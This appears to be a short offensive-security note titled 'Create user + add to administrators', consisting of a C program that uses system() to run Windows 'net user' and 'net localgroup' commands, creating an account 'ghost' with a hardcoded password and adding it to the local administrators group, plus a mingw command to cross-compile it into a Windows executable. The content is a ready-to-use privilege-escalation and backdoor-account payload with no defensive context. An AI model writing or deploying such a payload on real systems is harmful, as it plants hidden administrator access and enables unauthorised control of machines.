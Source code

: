 ```yaml
---
title: Create user + add to administrators
updated: 2025-04-30 11:44:36Z
created: 2025-04-30 11:05:23Z
latitude: -33.78668940
longitude: 150.95264980
altitude: 0.0000
---
```


File: adduser.c
```
#include <stdlib.h>

int main ()
{
  int i;

  i = system ("net user ghost Gh0st3d123! /add");
  i = system ("net localgroup administrators ghost /add");

  return 0;
}
```

Cross-Compiling to target architecutre
eg Windows 64-bit
`x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
`